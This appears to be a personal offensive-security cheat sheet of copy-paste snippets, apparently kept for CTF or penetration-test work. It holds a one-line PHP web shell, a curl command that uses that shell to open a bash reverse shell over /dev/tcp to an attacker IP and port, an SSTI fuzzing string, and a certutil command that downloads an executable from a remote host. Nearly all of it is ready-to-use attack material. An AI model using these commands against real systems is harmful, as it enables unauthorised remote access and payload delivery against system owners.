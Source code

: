 in here is things i have copy pasted since i have to look for them way too often

### bash reverse shell from a php command thing

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

### SSTI Fuzzing string

stolen from hacktricks bc i use it often and it takes me forever to find it each time
```
${{<%[%'"}}%\
```

### Certutil File Download

stolen from ired.team. i forgor this one way too much aswell

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```
